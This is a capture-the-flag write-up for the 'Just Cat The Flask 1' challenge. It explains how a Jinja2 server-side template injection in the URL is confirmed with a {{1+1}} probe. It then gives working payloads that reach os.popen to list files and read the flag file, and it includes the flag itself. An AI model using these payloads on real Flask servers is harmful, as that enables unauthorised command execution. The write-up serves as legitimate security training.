

# Just Cat The Flask 1

## Description
https://bluehens-cat-the-flask.chals.io/greeting/hi

Try this link if above is down again.

https://bluehens-cat-the-flask-patched.chals.io/greeting/hi

-ProfNinja and DaveTheDaemonSlayer

## Solution
When you open the link for this challenge, you got something similar to this.



This page is vulnerable to Jinja2 Server Side Template Injection (SSTI) in it's URL.
To test if the URL parameters is vulnerable to SSTI, we can pass `{{1+1}}` to the URL and the result should be 2 instead of `{{1+1}}`.


Using this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) we can craft RCE to run `ls` command in the server. 
The payload that I used for the RCE was.

```
{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
```


From the result, we know that our flag is in `flag1.txt`.
We just need to modify the previous payload to execute `cat flag1.txt`

```
{{x()._module.__builtins__['__import__']('os').popen("cat flag1.txt").read()}}
```


## Flag
`UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}`